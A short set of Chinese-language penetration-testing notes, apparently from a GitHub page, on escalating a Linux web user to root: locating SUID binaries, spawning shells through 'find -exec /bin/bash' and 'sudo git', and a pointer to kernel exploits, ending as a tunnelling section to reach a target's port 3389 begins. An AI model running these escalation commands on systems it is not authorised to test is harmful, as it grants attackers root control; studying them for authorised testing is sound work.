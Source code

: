 Web 用户权限提升至root 用户权限。除了以root 权限执行命令以外，能够读写系统中任意文件，也认为具有最高权限。

> SUID提权

SUID 是特殊权限位，具有SUID 标志的命令在执行期间继承了命令所有者的权限，这个命令所有者通常是root 用户。

```sh
find / -perm -4000 2>/dev/null  
find / -perm -u=s 2>/dev/null #-perm 权限;  -u=s 最少有sid权限；
```

find 提权

```
mkdir ww
find ww -exec 'whoami' \;
find ww -exec '/bin/bash' \;
find ww -exec '/bin/sh' \;
```

> sudo 权限滥用

sudo 以某一个用户身份执行命令，默认情况下，以root 用户身份执行命令。在sudo 命令的时候需要密码验证，神奇的是需要密码是当前用 户密码。 通过 sudo -l 可以查看，当前用户可以 sudo 的命令。

git 提权

```
sudo git -p help config

末行模式写入（不要:） !/bin/bash
```

---

> 内核提权

利用Linux 系统漏洞进行提权，大多数是内核漏洞。

基本步骤：1. Linux 内核提权信息收集 ；2.直接利用EXP 即可









# 隧道技术

目的：访问目标的3389；

前提条件：

1.获取对方的Getshell

2.有足够的权限上传文件，以及执行权限；

3.目标可以ping通公网ip；

---
